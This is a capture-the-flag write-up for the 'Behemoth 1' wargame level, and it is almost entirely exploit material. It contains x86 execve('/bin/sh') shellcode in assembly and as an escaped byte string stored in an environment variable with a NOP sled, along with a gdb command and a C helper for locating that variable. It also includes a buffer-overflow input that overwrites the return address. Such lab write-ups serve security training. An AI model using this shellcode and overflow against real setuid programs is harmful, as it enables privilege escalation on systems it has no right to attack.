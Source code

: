 ## Behemoth 1

```asm
; nasm -gstabs -f elf32 -o bin_sh.o bin_sh.asm && ld bin_sh.o -m elf_i386 -s -o bin_sh && ./bin_sh
; objdump -M Intel -d ./bin_sh |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

section .text
    global _start
_start:
    xor eax, eax ; make eax = 0
    push eax ; push 0 to stack
    push "//sh" ; tanda garing di belakang berfungsi agar tidak ada null byte saat membuat payload
    push "/bin" ; push /bin/sh to stack
    mov ebx, esp ; mov /bin/sh to ebx
    mov ecx, eax ; make ecx 0
    mov edx, eax ; make edx 0
    mov al, 0xb ; execve
    int 0x80 ; syscall

    push ecx ; push 0 on the stack
    mov al, 1 ; exit
    int 0x80
```

```sh
x/20s *((char **)environ) # in gdb to print env address and value
```

```sh
export EXPLOIT=$(python -c "print '\x90'*10+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x51\xb0\x01\xcd\x80'+'\x90'*10")
```

```sh
run < <(python -c 'print "\x90"*71+"\xf4\xde\xff\xff"')
```

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	char* ptr = getenv("EXPLOIT");
	printf("%p\n",ptr);
}
```

### Reference
- http://shell-storm.org/shellcode/files/shellcode-811.php
- https://stackoverflow.com/questions/55941924/why-was-nop-assigned-to-0x90-in-x86-assembly


